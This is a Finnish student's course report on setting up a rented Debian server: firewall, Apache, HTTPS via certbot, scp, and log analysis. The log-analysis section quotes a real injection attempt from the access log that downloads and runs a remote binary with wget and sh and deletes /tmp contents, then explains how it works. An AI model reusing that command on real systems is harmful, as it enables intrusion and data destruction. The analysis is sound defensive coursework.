


# Luento 4 Kotitehtävät
  
Osa kurssia Linux Palvelimet ICT4TN021-3018 Haaga-Helia Ammattikorkeakoulussa  
Kurssin vetäjä: [Tero Karvinen](https://terokarvinen.com/2021/linux-palvelimet-ict4tn021-3018/)  

Vinkki: muista merkitä, mikä kohta raportissasi vastaa mihinkin alakohtaan a,
b, c...

### a) Vuokraa oma julkinen palvelin Internetiin. Vinkkejä: Perustele tehdyt valinnat. Voit saada myös ilmaiseksi Github Education -paketilla. Jos sinulla on aiempi palvelin, tee uusi alusta lähtien ja raportoi samalla. Käytä aina hyviä salasanoja.  
  
Valitsin palvelinvuokraukseen [linode.com](https://www.linode.com/) palvelun, koska:   
* Sitä suositeltiin luennolla.  
* Sivuston ulkoasu näyttä käyttäjäystävälliseltä ja intuitiviiselta.  
* Halvin hinta palvelimelle on 5e/kk ja palvelintilaa tarjotaan myös Euroopan Unionin sisällä (Saksa).  
  
Linodessa palvelimen vuokraus tapahtuu rekisteröinnin ja kirjautumisen jälkeen Create Linode painikkeen kautta. Aukeavalla sivustolla päästään valitsemaan palvelimen kokoonpano. Tässä omat valintani:  
* OS: Debian 11  
    - Perustelu: Olen suurimmalti osalti käyttänyt Ubuntu jakeluita, mutta jossain vaiheessa tuntui, että Ubuntu oli mennyt aikamoiseksi sekamelskaksi, kun paketteja piti asennella vähän joka puolelta. Tämän kurssin aikana olen totutellut Debian 11 jakeluun ja pitänyt käytöstä. Jakelun pitäisi myös olla erittäin sopiva palvelimen pohjaratkaisuksi. Mm. Techradarin arvostelussa [täällä](https://www.techradar.com/best/best-linux-server-distro) on Debian luokiteltu sijalle kaksi Linux palvelinratkaisuista turvallisuuden, vakauden ja pitkäikäisyytensä ansiosta (ykkösenä listalla Ubuntu Server).  
* Region: Frankfurt, DE
    - Perustelu: Pysytään Euroopan Unionin sisällä niin ei tarvitse monimutkaista käsittelyä mahdollisten henkilötietojen keräämisessä (GDPR). Saksa on maantieteellisesti lähin alue joten se tarjonnee parhaat siirtonopeudet ja pienimmän viiveen.  
* Linode Plan: Shared GPU, Nanode 1 GB
    - Perustelu: Halvin ratkaisu, joka tarjoaa 1 GB RAMia, yhden Prosesessorin ja 25 GB kovalevytilaa/kk. Riittää minulle tämän kurssin puitteissa ja mahdollisesti myös tulevaisuudessa.  

Sitten vain valitsin kuvaavan Linode Labelin palvelimelle sekä loin vahvan salasanan root käyttäjälle.  
Lisäsin käyttöön SSH avaimen, joka minulla oli jo ennestään luotuna.  
En valinnut käyttöön mitään lisäpalveluita kuten 2 euroa kuukaudessa maksava back tai yksityinen IP-osoite (Private IP).  
Create.  
  
Hetken aikaa sivusto pyöritti keltaista vlkkuvaa valoa ja Provisioning tekstiä ennen kuin tilaksi muuttui Running.  
  
SSH yhteyden testaus root käyttäjällä:  
  
  
Toimii. Siirrytään B-kohtaan.      

  
### b) Suojaa palvelin tulimuurilla. Muista ensin reikä ssh-palvelimelle.  
   
Päivitin apt-getin pakettilistat ja asensin palomuurin:  
\$ sudo apt-get update  
\$ sudo apt-get install ufw  
  
Avataan ssh -yhteyksien käyttämä portti, jotta ei tule lukittua itseään ulos palvelimelta, sekä käynnistetään palomuuri:    
\$ sudo ufw allow 22/tcp  
\$ sudo ufw enable  
Y  
Firewall is active and enabled on system startup  
\$ sudo reboot  
  
Otin SSH-yhteyden uudelleen päälle, kun palvelin oli käynnistynyt ja ajoin peruspäivitykset:    
\$ sudo apt-get upgrade  
\$ sudo apt-get dist-upgrade -y  
  
Loin uuden käyttäjän ja lisäsin tälle sudo oikeudet:    
\$ sudo adduser pajazzo 
\$ sudo adduser pajazzo sudo  
\$ exit  
  
Käyttäjän testaus:    
\$ ssh pajazzo@....  
Success  
\$ whoami  
pajazzo  
\$ sudo whoami  
root  
  
Palomuuri käynnistetty onnistuneesti, palvelimen sovellukset ja OS päivitetty, sekä uusi superuser käyttäjä luotu.  
  
### c) Laita koneellesi Apache-weppipalvelin. Korvaa testisivu. Laita käyttäjän kotisivut toimimaan. Kokeile eri koneelta, esim. kännykällä, että sivut toimivat Vinkki: tee kotisivut normaalina käyttäjänä public_html/ alle, opettelemme "name based virtual hosting" myöhemmin.  

Asensin Apache 2 paketin ja varmistin, että palvelu lähti käyntiin:    
\$ sudo apt-get install apache2  
\$ sudo systemctl status apache2  
● apache2.service - The Apache HTTP Server  
     Loaded: loaded (/lib/systemd/system/apache2.service; enabled; vendor prese>  
     Active: active (running) since Mon 2022-02-14 08:01:12 UTC; 3min 26s ago  
       Docs: https://httpd.apache.org/docs/2.4/  
   Main PID: 1138 (apache2)  
      Tasks: 55 (limit: 1134)  
     Memory: 11.2M  
        CPU: 85ms  
     CGroup: /system.slice/apache2.service  
             ├─1138 /usr/sbin/apache2 -k start  
             ├─1140 /usr/sbin/apache2 -k start  
             └─1141 /usr/sbin/apache2 -k start  
  
Feb 14 08:01:11 localhost systemd[1]: Starting The Apache HTTP Server...
Feb 14 08:01:12 localhost apachectl[1137]: AH00558: apache2: Could not reliably>
Feb 14 08:01:12 localhost systemd[1]: Started The Apache HTTP Server.  
  
Tässä vaiheessa kävin Linoden Domain kohdasta lisäämässä ostamani domainin käyttöön, sekä lisäämässä uudelle palvelimelleni osoittavat A-tietueet domainin DNS-asetuksiin domain-kauppiaani sivuston kautta.  

Avasin palomuurilta oikean portin, jotta Apache on tavoitettavissa myös ulkomaailmasta, korvasin oletusetusivun toisella ja testasin curlilla, että muutokset astuivat voimaan:  
\$ sudo ufw allow 80/tcp   
\$ echo "Under Construction" | sudo tee /var/www/html/index.html  
Under Construction  
\$ curl mikkopajunen.com  
Under Construction  
    
Laitoin käyttäjien kotisivut toimintaan ja uudelleenkäynnistin Apache2 palvelun:  
\$ sudo a2enmod userdir  
\$ sudo systemctl restart apache2  
  
Loin käyttäjälle kotisivun juurikansion sekä index.html tiedoston, johon lisäsin tekstiä ja testasin lopuksi curlilla toiminnan:  
\$ mkdir public_html  
\$ touch public_html/index.html  
\$ echo "User page Under Construction" | tee public_html/index.html  
\$ "User page Under Construction"  
\$ curl mikkopajunen.com/~pajazzo/  
User page under Construction  
  
Kotisivut toimivat. Testasin vielä matkapuhelimella toiminnan. Näyttää hyvältä.  
  
### d) Etsi lokeistasi merkkejä murtautumisyrityksistä ja analysoi ne. Vinkki: auth.log.  
    
20.122.1.130 - - [14/Feb/2022:09:36:35 +0000] "HEAD /robots.txt HTTP/1.0" 404 159 "-" "-"  
  
Purin lokitiedon osiin [tämän](https://httpd.apache.org/docs/current/logs.html#common) tulkintaohjeen mukaisesti:  
Tietue | Selitys
---|---
20.122.1.130 | IP-osoite josta pyyntö tapahtumalle tuli. Yhdysvaltalainen IP-osoite, joka [ip-info.io](https://ipinfo.io/20.122.1.130) sivuston mukaan kuuluisi Microsoftille.    
\- | Tieto ei saatavilla. Pitäisi sisällään RCF 1413 identiteetin (ident).  
\- | HTTP tunnistautumisen ilmoittama käyttäjätunniste, joka tässä tapauksessa myös tyhjä.  
[14/Feb/2022:09:36:35 +0000] | Päivämäärä, kellonaika ja aikavyöhyke +-UTF muodossa. Tässä UTF +0 eli ajat ovat kaksi tuntia jäljessä Suomen aikaan verrattuna.  
"HEAD /robots.txt HTTP/1.0" | Pyynnön tyyppi on HEAD, eli pyyntö koskee /robots.txt tiedoston headereitä. Käytetty protokolla HTTP/1.0 (vanhentunut ja yleisesti bottien käyttämä protokolla, joka vaatii uuden Three way handshaken jokaista requestia varten (https://medium.com/platform-engineer/evolution-of-http-69cfe6531ba0)).   
404 | Statuskoodi, jonka palvelin ilmoitti takaisin käyttäjälle.  [404](https://en.wikipedia.org/wiki/HTTP_404) eli sivua ei löydy.  
159 | Käyttäjälle palautetun tiedoston koko tavuina.  
\-| Referoija eli miltä sivulta pyyntö tuli.  
\- | Järjestelmä ja selaintiedot jotka käyttäjän selain ilmoitti.  
  
Koska pyyntö tuli tiedostolle robots.txt mahdollisesti Microsoftin omistamasta IP-osoitteesta, kyseessä saattaa olla hakukonepalveluun liittyvä crawleri. robots.txt tiedostoon laitetaan yleensä ohjeet boteille, miten sivua luetaan ja mahdollisesti sivut joita ei haluta sisällyttää hakuihin. Lähde: https://www.hostpoco.com/blog/what-are-the-bots-and-how-to-stop-them-using-robots-txt/. **Tämä siis tuskin oli murtautumisyritys**  
  
Jouduin hetken aikaa tarkkailemaan uusia pyyntöjä (sudo tail -f /var/log/apache2/access.log syöttää uudet rivit reaaliaikaisesti komentoriville, kun niitä lokiin tulee). Seuraava ilmestyi listalle:    
  
104.35.176.251 - - [14/Feb/2022:10:12:48 +0000] "GET /shell?cd+/tmp;rm+-rf+*;wget+ http;//23,94,7,175/,s4y/arm;sh+/tmp/arm" 400 477 "-" "-" (http linkki rikottu minun toimestani)  
  
Näyttää jo huomattavasti epäilyttävämmältä. Purin tietueen taas osiin:  
Tietue | Selitys
---|---
104.35.176.251 | IP-osoite josta pyyntö tapahtumalle tuli. Kyseisestä IP-osoitteesta selviää Maltiverse.com sivustolta, että se on tunnettu hyökkääjä: "This IP Address has been seen sending attacks over the Internet.". IP-osoite sijaitsee jälleen Yhdysvalloissa.     
\- | Tieto ei saatavilla. Pitäisi sisällään RCF 1413 identiteetin (ident).  
\- | HTTP tunnistautumisen ilmoittama käyttäjätunniste, joka tässä tapauksessa myös tyhjä.  
[14/Feb/2022:10:12:48 +0000] | Päivämäärä, kellonaika ja aikavyöhyke +-UTF muodossa. Tässä UTF +0 eli ajat ovat kaksi tuntia jäljessä Suomen aikaan verrattuna.  
"GET /shell?cd+/tmp;rm+-rf+*;wget+ http;//23,94,7,175/,s4y/arm;sh+/tmp/arm" | Hyökkääjä pyytää (GET) resurssia ja antaa parametreiksi koodin pätkän. Tällä koodilla hän yrittää avata shell istunnon, navigoida root sijainnin väliaikaistiedostoihin (cd /tmp), poistaa koko tmp kansion sisällön alikansioineen (rm -rf *), ja ladata verkosta kansioon oman ohjelmansa wget -komennolla. Lopuksi hän pyrkii suorittamaan kyseisen ohjelman sh komennolla.   
400 | Statuskoodi, jonka palvelin ilmoitti takaisin käyttäjälle.  [400 Bad Request](https://en.wikipedia.org/wiki/HTTP_400) eli esitetyssä pyynnössä oli jotain vikaa.
477 | Käyttäjälle palautetun tiedoston koko tavuina.  
\- | Referoija eli miltä sivulta pyyntö tuli.  
\- | Järjestelmä ja selaintiedot jotka käyttäjän selain ilmoitti.  
  
Kyseessä oli selkeä hyökkäysyritys, jossa tunkeutuja yrittää ottaa komentokehoitteen haltuunsa koodi-injektiolla, ladata palvelimen juuren /tmp kansioon  oletettavasti haitallisen sovelluksen ja käynnistää sen. Hyökkääjän käyttämä pyyntö todettiin kuitenkin palvelimen puolella vialliseksi joten hyökkäys ei edennyt. Nopea katsaus ls -la komennolla /tmp kansioon myös paljastaa, että siellä a) on useita tiedostoja ja kansioita ja b) ei ole hyökkääjän lataamaa sijaintia.     
   
### c) Vapaaehtoinen: Laita TLS-salakirjoitus (https) toimimaan Let's Encrypt avulla. Vinkki: certbot tai lego.  
  
Päätin valita sertifikaatin luomiseksi certbotin vaikka, sen asentamiseen tarvitaankin snap paketinhallinta.  
Aloitin asentamalla snapin palvelimelle https://snapcraft.io/docs/installing-snap-on-debian  
Asensin snapin ja käynnistin palvelimen uudelleen, jotta PATH arvot päivittyvät varmasti oikein:  
\$ sudo apt-get install snapd  
\$ sudo reboot  
  
Asensin snap coren joka takaa, että snapd:sta on uusin versio asennettuna (mitä tuo sitten tarkoittaakaan):  
\$ sudo snap install core  
  
Certbotin asennus(https://certbot.eff.org/instructions?ws=apache&os=debianbuster) ja softlinkin luominen /usr/bin/ sijaintiin, jotta certbot komento on määritetty polkuun ja varmasti käytettävissä kaikkialla.  
\$ sudo snap install certbot  
\$ sudo ln -s /snap/bin/certbot /usr/bin/certbot  
  
Sertifikaatin luominen parametrina --apache jolloin certbot myös asentaa valmiin sertifikaatin automaattisesti.  
\$ sudo certbot --apache  
  
Testasin ja sivulle ei saada enää yhteyttä. Testattu Linux kannettavalla Firefox selaimella ja Android puhelimen Microsoft Edge selaimella.  
Mieleen tuli, että https portti on varmaankin blokattu palomuurilla. En muistanut porttia ulkoa, joten duckduckgo haku "https port" ja sain useamman tuloksen jotka ilmoittivat portin olevan 443.  
Siis:  
\$ sudo ufw allow 443/tcp  
  
Nyt sivut taas toimivat:  
  
  
### e) Vapaaehtoinen: Tee weppisivuja omalla, paikallisella koneellasi ja kopioi ne palvelimelle scp-komennolla.  
  
Tein testimielessä todella simppelin testi html-sivun scp -siirron testausta varten.  
Ohjeet scp:n käytöstä löysin seuraavaalta sivulta: https://www.ionos.com/digitalguide/server/configuration/linux-scp-command/  
Kun sivu oli valmis avasin komentokehoitteen ja siirsin sivut (-r rekursiivisesti koko sijainti -v verboosi output):  
  
\$ scp -rv /Projects/scpTestSite/public_html/ pajazzo@172.104.224.124:/home/pajazzo  
  
Koska scp käyttää ssh-yhteyttä, en olettanut tässä tulevan ongelmia eikä tullutkaan. Salasanatarkistuksen jälkeen meni hetki ja sain ilmoituksen onnistuneesta siirrosta.  
Sivut ovat katseltavissa https://mikkopajunen.com/~pajazzo osoitteesta vaikkei siellä hirveästi katseltavaa olekaan.  
  
Tässä vaiheessa huomasin, että osoite https://www.mikkopajunen.com ei toimi. Mahdollisesti domain-hallinnoijan sivuilta ohjauksia kuntoon?  
   
### x) Vaikea, vapaaehtoinen vaihtoehtotehtävä Tämä on vain niille parille propellihatulle, jotka halusivat vaikeamman tehtävän. Korvaa muut h4 koti- ja tuntitehtävät. Koodaa ja julkaise uusi tietokantaa hyödyntävä weppipalvelu. Palvelun pitää ratkaista jokin käytännön ongelma, esimerkiksi ilmoittautuminen tapahtumaan, pisteytä tunti, äänestä suosikkia tms. Voit hyödyntää vanhoja koodejasi, kunhan lopputulos on uusi. Voit käyttää mitä vain kehitysalustaa (framework , esimerkiksi LAMP, Flask, Django, Postgre, Mariadb... Muista lisätä raporttiin ruutukaappaukset keskeisestä toiminnallisuudesta.  